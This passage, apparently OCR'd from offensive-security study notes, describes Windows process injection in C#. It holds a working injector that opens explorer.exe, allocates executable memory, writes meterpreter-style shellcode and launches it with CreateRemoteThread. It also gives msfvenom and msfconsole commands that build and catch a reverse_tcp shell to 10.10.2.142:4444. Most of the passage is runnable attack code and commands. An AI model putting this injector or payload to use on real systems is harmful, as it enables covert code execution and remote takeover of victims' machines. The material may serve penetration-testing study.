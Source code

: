                 static void Main(string[] args)
                {
                    // Change this to the process name you want to inject into (without .exe)
                    string targetProcessName = "explorer";
        
                    Process[] processes = Process.GetProcessesByName(targetProcessName);
                    if (processes.Length == 0)
                    {
                        Console.WriteLine($"Process {targetProcessName} not found.");
                        return;
                    }
        
                    int pid = processes[0].Id;
                    Console.WriteLine($"[*] Found {targetProcessName} with PID {pid}");
        
                    IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                    IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        
                    byte[] buf = new byte[591] {
                        0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                        // ... rest of your shellcode here ...
                        0x0a,0x41,0x89,0xda,0xff,0xd5
                    };
        
                    IntPtr outSize;
                    WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
        
                    IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        
                    Console.WriteLine("[*] Shellcode injected and remote thread created.");
                }
            }
        }
        
      ```
        
9. **Architecture Notes**
    - 64-bit → 64-bit, 32-bit → 32-bit, 64-bit → 32-bit injections work.
    - 32-bit → 64-bit injection fails with `CreateRemoteThread`.
        - Workaround: custom assembly stub to transition into 64-bit mode.
    - Always compile injector with correct architecture matching target process.
10. **Practical Example (Metasploit)**
    - Generate shellcode with `msfvenom`
        
        ```csharp
        msfvenom -p windows/x64/meterpreter/reverse_tcpLHOST=10.10.2.142 LPORT=4444 -f csharp
        ```
        
        - Place output in `byte[] buf` array.
        - Start a Metasploit listener:
    - Start listener
        
        ```csharp
        msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.2.142; set LPORT 4444; exploit" 
        ```
